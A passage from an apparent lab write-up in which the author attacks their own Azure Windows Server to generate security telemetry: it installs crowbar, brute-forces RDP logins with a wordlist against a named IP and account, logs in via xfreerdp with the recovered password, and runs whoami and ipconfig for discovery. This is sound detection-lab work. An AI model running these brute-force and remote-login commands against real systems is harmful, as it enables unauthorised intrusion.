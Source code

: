 ```sh
sudo apt install crowbar
```

4) Perform the brute force attack with the created wordlist against the Windows Server.

```sh
crowbar -b rdp -C /home/ayna/wordlist.txt -u azureuser -s 13.79.153.53/32
```

![](/assets/images/mydfir-challenge/crowbar.png)

After 5 seconds it obtained the right password!

5) Now we can gain access to the server through RDP.

```sh
xfreerdp /u:azureuser /p:CompanyName2024! /v:13.79.153.53:3389 /dynamic-resolution
```


### 2. Discovery
During the discovery stage, we can use commands to gain knowledge about the system and internal network. The goal of this activity in this project is to generate telemetry to analyse later.

1) `whoami` to check the running user.
2) `ipconfig /all` to check all the network configuration of the server.

![](/assets/images/mydfir-challenge/whoami-ipconfig.png)
